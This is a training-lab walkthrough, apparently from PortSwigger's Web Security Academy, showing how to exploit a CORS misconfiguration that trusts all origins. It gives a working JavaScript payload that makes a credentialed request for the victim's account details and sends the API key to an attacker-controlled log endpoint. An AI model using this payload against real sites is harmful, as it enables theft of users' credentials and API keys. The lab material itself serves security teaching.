 This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

//

	Check intercept is off, then use the browser to log in and access your account page.
	Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
	Send the request to Burp Repeater, and resubmit it with the added header:

	Origin: https://example.com
	Observe that the origin is reflected in the Access-Control-Allow-Origin header.
	In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:

	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
			location='/log?key='+this.responseText;
		};
	</script>
	Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
	Go back to the exploit server and click Deliver exploit to victim.
	Click Access log, retrieve and submit the victim's API key to complete the lab.